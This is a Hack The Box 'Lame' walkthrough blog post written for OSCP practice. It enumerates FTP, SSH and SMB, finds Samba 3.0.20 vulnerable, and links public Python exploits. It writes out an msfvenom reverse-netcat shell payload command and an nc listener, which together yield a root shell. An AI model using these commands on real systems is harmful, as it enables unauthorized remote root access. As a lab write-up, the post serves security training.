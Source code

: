 ```yaml
---
layout: post
title: "HTB{Lame}"
categories: jekyll
permalink : notes/htb4oscp/linux/lame
---
```


## Box introduction

![lame](/musubi/assets/htboscp/linux/lame/lame.png)

## Requirements
> Basic Linux command

> Basic Python

## Enumeration

First, by running nmap scan, we will find the version of the services on the common ports that are open.

![nmap](/musubi/assets/htboscp/linux/lame/nmap.png)

So, there are 4 open ports which are;

`Ports:Service`

` 21:ftp `

` 22:ssh `

` 139:smb`

` 445:smb`

Based on the scan, we found other information too. So, first, we will start with `ftp` service.

### Enumerating FTP
Based on the scan, we have few information that might be useful;

I. Version : `vsftpd 2.3.4` (is it the latest version, any vulnerability related to the version?)

II. Anonymous login allowed (what's inside the anonymous session? any important file? )

### I. Version

so first, we will look at the version. We will check if there is any exploit related to the particular version in the exploitdb, so start by typing
`searchsploit vsftpd 2.3.4`

![searchsploit](/musubi/assets/htboscp/linux/lame/searchsploit.png)

and we found out that there is `Backdoor Command Execution` exploit available. Let's take a look at the exploit, below is only the part of the full exploit;

![snippet](/musubi/assets/htboscp/linux/lame/exploit.png)

as we can see, the exploit is part of `Metasploit Framework`. So, we can start `msf` and run the exploit or we can exploit it without using `metasploit` . For now, let's do it without `metasploit`

So, I found a python version at this github [repo](https://raw.githubusercontent.com/In2econd/vsftpd-2.3.4-exploit/master/vsftpd_234_exploit.py), but when we try to run it, we will find that the attack failed.

![failpython](/musubi/assets/htboscp/linux/lame/failpython.png)

So, let's move on for now...

### II. Anonymous login

There is no information that can be obtained from anonymous session. So, we will move on too.

![anonymousftp](/musubi/assets/htboscp/linux/lame/anonymousftp.png)


### Enumerating SSH

Since there is no credentials found and the version `OpenSSH 4.7p1` has no known vulnerability, we will move on to the next service.

### Enumerating SMB

Since there are two ports open, we will first look at the version that has been scanned by our `nmap`.

`Port:Service:Version`

` 139:SMB:Samba smbd 3.X - 4.X `

` 445:SMB:Samba smbd 3.0.20-Debian`


### Version vulnerabilities
Since port 139 does not show the exact version of samba, so we will ignore it for now and go to port 445, which is `smbd 3.0.20`. Using `searchsploit`, we will come across two vulnerabilities.

![vuln](/musubi/assets/htboscp/linux/lame/searchsploitsamba.png)

So, by reading the first exploit, we know it is part of the `metasploit` modules too. Luckily, I found a python version in this [repo](https://gist.githubusercontent.com/joenorton8014/5aeffe8220e790f3356fbbd6b508efbc/raw/06712ff5afca5ee7f5dcfdd7dafc67d4688452d5/samba-usermap-bind.py).

So, let's take a look at the exploit code;

![sourcecodeusermap](/musubi/assets/htboscp/linux/lame/sourcecodeusermap.png)

As we can see, the code is really simple to understand and to edit.
The first thing we want to do is, we need to change the current shellcode into our shellcode instead;

To generate our shellcode using `msfvenom`, simply type :

` msfvenom -p cmd/unix/reverse_netcat LHOST=[Kali IP] LPORT=[Kali Port] -f python`

which tells `msfvenom` to create our shellcode and output it in python format.

![payload](/musubi/assets/htboscp/linux/lame/payload.png)

Then replace the available shellcode in the exploit with our new generated one. (under `shellcode`)

## Exploitation

Then , set up our listener based on the IP that we have set for our shellcode. Type,

`nc -lvnp [Kali Port]`

then , execute our exploit.

![executed](/musubi/assets/htboscp/linux/lame/executed.png)

and boom!! we got a connection to our `netcat` listener. :3

![connection](/musubi/assets/htboscp/linux/lame/connection.png)

## Post exploitation

This exploit will give us directly a `root` access. We can confirm it by running `whoami` .

![whoami](/musubi/assets/htboscp/linux/lame/root.png)

## Knowledge gained
> Exploiting samba using service version attack

And, thank you for today. Hope you will learn a lot from this writeup. Until next time. :D

